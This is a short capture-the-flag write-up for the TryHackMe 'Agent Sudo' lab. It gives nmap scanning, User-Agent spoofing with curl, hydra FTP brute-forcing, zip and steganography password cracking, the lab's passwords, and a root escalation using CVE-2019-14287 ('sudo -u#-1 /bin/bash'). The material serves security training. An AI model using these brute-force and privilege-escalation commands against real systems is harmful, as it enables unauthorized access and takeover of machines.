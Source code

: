 Agent Sudo (TRYHACKME) WriteUp
'''

#1

How many open ports?

nmap <ip>
	
Ans:-3

#2

How you redirect yourself to a secret page?

Ans:- User-Agent

curl http://10.10.66.62 -H "User-Agent: C" - L


Output:-
'''
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
'''

#3	

What is the agent name?
Ans:- chris


#1

FTP password

hydra -l chris -P /file/dest/rockyou.txt ftp://10.10.66.62
Answer :- crystal

#2

Zip file password

binwalk -e image.png
zip2john file.zip > hash.txt
john hash.txt --wordlist=rockyou.txt
Answer :- alien

#3	

steg password
steghide extract -sf image.png
Answer :- Area51

#4	

Who is the other agent (in full name)?

Answer :- james

#5	

SSH password

Answer :- hackerrules

++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

#1

CVE number for the escalation 

(Format: CVE-xxxx-xxxx)

Answer: for priv-esc:- scp /location/linpeas.sh james@IP:/dev/shm

sudo -l tells us ->
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash

CVE-2019-14287 : - To Get Root access we can try to mention a user that doesn't exists
sudo -u#-1 /bin/bash

#2	

What is the root flag?

Answer: ********************************
#3	
(Bonus) Who is Agent R?

